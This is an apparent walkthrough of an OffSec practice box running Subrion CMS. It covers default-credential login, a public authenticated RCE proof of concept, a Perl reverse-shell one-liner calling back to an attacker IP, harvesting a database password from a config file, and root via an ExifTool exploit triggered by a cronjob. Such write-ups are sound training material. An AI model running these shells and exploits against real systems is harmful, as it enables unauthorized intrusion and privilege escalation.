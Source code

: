 `nmap -A -T4 -p- 192.168.225.163`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   48.05 ms 192.168.45.1
2   48.04 ms 192.168.45.254
3   48.77 ms 192.168.251.1
4   48.83 ms 192.168.225.163
```

In the output with have a DNS name that we can add to /etc/hosts. Along with some robots.txt entries that we can look into.

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

Looking at some of the disallowed directories, some interesting ones like `/panel/` and `/install/` stand out to me.

In `/panel/` we get a login panel and test default `admin:admin` and get a successful authentication

![](Images/Pasted%20image%2020250509103845.png)

![](Images/Pasted%20image%2020250509103855.png)

This is `Subrion CMS v 4.2.1` so we can use that in our enumeration. Which we can quickly find a Authenticated RCE for this version [here](https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE) lets adapt that and run it.

After running the POC we establish a web shell with the target.

![](Images/Pasted%20image%2020250509104207.png)

Lets try and establish a normal shell as webshells would not count for credit.

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.244:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

This allowed us to establish a normal tty shell.

![](Images/Pasted%20image%2020250509105527.png)

The home directory of the user coaran is empty so I assume we just need to find escalation to the root proof. 

Beginning with some light manual directory enumeration. Within the Web Server directory is an `admin` directory which contains `adminer.php` which upon opening contains some additional detail but it doesn't contain a password. We could try with an empty password?

```
    $_GET['username'] = INTELLI_DBUSER;
    $_GET['server'] = INTELLI_DBHOST;
    $_GET['db'] = INTELLI_DBNAME;
    $_GET['driver'] = INTELLI_CONNECT;

INTELLI_DBUSER:
```

Lets see if the pass is anywhere in the directory structure.

```
grep -r "INTELLI_DBPASS" .
```

We end up finding the following

```
./includes/config.inc.php:define('INTELLI_DBPASS', 'target100');
```

Lets go check that file to see if its for the same user. It is not but we have found credentials

```
define('INTELLI_CONNECT', 'mysqli');
define('INTELLI_DBHOST', 'localhost');
define('INTELLI_DBUSER', 'subrionuser');
define('INTELLI_DBPASS', 'target100');
define('INTELLI_DBNAME', 'subrion');
define('INTELLI_DBPORT', '3306');
define('INTELLI_DBPREFIX', 'sbr421_');
```

Using these credentials we get access to the DB. After enumerating the DB this seems to be a misleading rabbit hole. Lets just transfer Linpeas over and do some automated enumeration.

In the output we find a cronjob running a script.

![](Images/Pasted%20image%2020250509110903.png)

Lets check that out and see if we can add a bash script to catch a shell as root. 

![](Images/Pasted%20image%2020250509110933.png)

I can't edit the file but searching on google found something promising [here](https://www.exploit-db.com/exploits/50911) which leverages ExifTool for local priv esc. We will use the POC to create a malicious file to be executed by the image-exif.sh script.

![](Images/Pasted%20image%2020250509111330.png)

![](Images/Pasted%20image%2020250509111636.png)

Looks like we can just generate the payload with the `-s` operator. 

```
python3 exifpoc.py -s 192.168.45.244 22
```

![](Images/Pasted%20image%2020250509112850.png)

Now we can upload the malicious jpg to be executed by the root scheduled task.

```
python3 -m http.server 80
nc -lvnp 22

wget 192.168.45.244/image.jpg (into uploads directory)
```

Lets wait to see if it establishes a shell. That didn't appear to get execution? Do we have to upload it through the proper upload field in the admin panel? Maybe it doesn't like the port so lets try another. Changing the port also didn't seem to do anything either. Lets try resetting the instance and try again.

Attempting after reset, creating the shell for port 80 and uploading it through `panel/uploads` gets us our shell.

![](Images/Pasted%20image%2020250509114439.png)

Turns out there was a local.txt that my initial shell didn't see when I did a `dir /home/coaran` anyways we have root now so we can grab that one too.

![](Images/Pasted%20image%2020250509114622.png)




